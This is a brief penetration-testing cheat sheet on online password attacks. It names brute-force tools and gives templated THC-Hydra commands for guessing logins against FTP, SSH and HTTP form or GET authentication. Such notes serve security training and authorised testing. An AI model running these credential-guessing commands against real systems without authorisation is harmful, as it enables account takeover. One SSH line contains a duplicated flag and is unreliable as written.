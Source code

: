 # Online password attacks

## Online attack tools

```text
THC-Hydra || Medusa || crowbar || spray
```

## Hydra

```text
# attacking ftp
hydra -l/L <user> -p/P <pass> ftp://<target>

# attacking ssh
hydra -l/L <user> -p/P <pass> <target> -t -t 16 ssh

# attacking http post form
hydra -l/L <user> -p/P <pass> <ip> http-post-form "/<path>:username=^USER^&password=^PASS^:F=incorrect" -V

# attacking http get
hydra -l/L <user> -p/P <pass> <ip> http-get /<path>
```
